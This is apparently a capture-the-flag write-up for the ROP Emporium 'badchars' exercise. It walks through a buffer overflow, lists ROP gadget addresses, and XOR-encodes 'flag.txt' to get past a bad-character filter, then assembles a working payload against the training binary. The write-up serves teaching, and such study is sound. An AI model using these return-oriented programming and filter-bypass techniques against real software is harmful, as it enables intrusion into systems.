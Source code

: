 # badchars
Same as problem write4, function print_file will open a file with the fileaname as argument. Therefore, we can make the argument as string "flag.txt". However, "flag.txt" is too long to store in a 64-bit register, we need to write the string into data section and make the argument point to the address of string.

In this problem, there is a bad character list, which reject certain characters in buffer input, here is "a", "g", ".", "x". All these characters can be found in "flag.txt". So we need to find a way to bypass this bad characters checking. A simple way is use xor operation. Xor operation can be canceled by doing corresponded xor operation.

Check the security of binary:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
``` 
Since PIE is disabled, we can find data section address, therefore, we can use the same way in previous problem.

We write string to data section address:
```
readelf
...
.data = 0x601028 >>> dataSect = 0x601028 + 0x8
...
```
We also need some gadget to do following operations, write to data section, move data section address to rdi register, do the xor operation.
```
ROPgadget --binary badchars
...
0x0000000000400634 : mov qword ptr [r13], r12 (gadget2); ret # write string to buffer
...
0x000000000040069c : pop r12 ; pop r13 ; pop r14 ; pop r15 (gadget1); ret # pop value and address to registers
...
0x00000000004006a0 : pop r14 ; pop r15 (gadget5); ret # pop xor value and address to registers
...
0x00000000004006a3 : pop rdi (gadget3); ret # pop string address to argument register
...
0x0000000000400628 : xor byte ptr [r15], r14b (gadget4); ret # do byte xor operation to ptr [byte] address
...
```
We need to find xor pairs to bypass bad characters checking. Using xor_pair in pwntools:
```
xor_pair(b'flag.txt')
>>> (b'\x01\x01\x01\x01\x01\x01\x01\x01', b'gm`f/uyu')
```
We only need to xor bad characters in "flag.txt". Then the string we write to data section will be:
```
b'flag.txt' >>> b'fl`f/tyt'
```
Now, we can build our payload:

Firstly, write the xor string 'gm`f/uyu' to data section, then do byte xor operation to each byte to string, finally, pop the string address to rdi, and call print_file.

Same as before, there is a 32 bytes buffer, and 8 bytes rbp.
```
'A'*40
```
Pop string 'fl`f/tyt' and data section address to r12 r13, and xor byte and data section byte address into r14 and r15.
```
p64(gadget1) + b'fl`f/tyt' + p64(dataSect) + p64(0x1) + p64(dataSect+2)
```
Write to data section and do xor opeation to 'a' byte.
```
p64(gadget2) + p64(gadget4)
```
Do xor operation to rest string byte 'g', '.', 'x'.
```
# 'f' ^ 1 = 'g'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+3) + p64(gadget4)
# '/' ^ 1 = '.'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+4) + p64(gadget4)
# 'y' ^ 1 = 'x'
payload += p64(gadget5) + p64(0x1) + p64(dataSect+6) + p64(gadget4)
```
Pop data section address to rdi.
```
p64(gadget3) + p64(dataSect)
```
Jump to print_file.
```
p64(print_file_plt)
```
Execute exploit.py, and obtain the flag.
```
ROPE{a_placeholder_32byte_flag!}
```
